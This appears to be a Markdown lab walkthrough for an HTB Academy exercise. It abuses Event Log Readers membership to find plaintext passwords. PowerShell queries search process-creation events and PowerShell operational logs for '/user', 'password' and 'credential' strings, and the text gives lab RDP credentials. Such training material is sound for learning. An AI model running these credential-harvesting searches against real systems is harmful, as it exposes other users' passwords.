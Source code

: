 #### Process Creation Event Analysis
```powershell
# Filter Event ID 4688 with /user pattern
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}

# Expected output:
CommandLine
-----------
net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```

#### Alternative PowerShell Searches
```powershell
# Search for password patterns
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*password*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}

# Search with alternate credentials
Get-WinEvent -LogName security -Credential (Get-Credential) | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'}
```

#### PowerShell Operational Log Analysis
```powershell
# Access PowerShell logs (accessible to unprivileged users)
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | where { $_.Message -like '*password*' }

# Script block logging analysis
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | where { $_.ID -eq 4104 -and $_.Message -like '*credential*' }
```

## 🎯 HTB Academy Lab Solution

### Lab Environment
- **Credentials**: `logger:HTB_@cademy_stdnt!`
- **Access Method**: RDP
- **Objective**: Find password for user `mary` using Event Log Readers privileges

### Detailed Step-by-Step Solution

#### 1. RDP Connection
```bash
# Connect via RDP to target (IP will be provided)
xfreerdp /v:[TARGET_IP] /u:logger /p:'HTB_@cademy_stdnt!'
```

#### 2. Verify Group Membership
```cmd
# Open Command Prompt
# Confirm Event Log Readers membership
net localgroup "Event Log Readers"

# Verify user is member:
Members
-------------------------------------------------------------------------------
logger
```

